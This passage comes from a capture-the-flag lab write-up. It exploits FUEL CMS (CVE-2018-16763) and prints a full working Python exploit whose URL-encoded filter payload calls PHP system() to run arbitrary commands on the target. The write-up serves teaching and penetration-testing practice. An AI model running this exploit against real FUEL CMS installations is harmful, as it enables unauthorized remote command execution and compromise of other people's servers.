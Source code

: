 Without being an expert in PHP, it looks like it's printing out the word system and then calling the system function to execute the command that we provided. Clearly, this is a MAJOR vulnerability which is why it's listed with a critical score of 9.8. With a deeper understanding of the exploit, let's make a few tweaks to the exploit removing the Burpsuite proxy and run it!

```python
import requests
import urllib

cms_url = "http://10.10.221.136"

def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	cmd = raw_input('cmd: ')
	url = cms_url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(cmd)+"%27%29%2b%27"
	r = requests.get(url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```

Great! Let's test the exploit with a simple whoami command.


[^cve]: <https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-16763>
[^reverse]: <https://github.com/swisskyrepo/PayloadsAllTheThings>
[^github]: <https://github.com/daylightstudio/FUEL-CMS/issues/478>
[^jared]: <https://unicornsec.com/home/tryhackme-ignite>
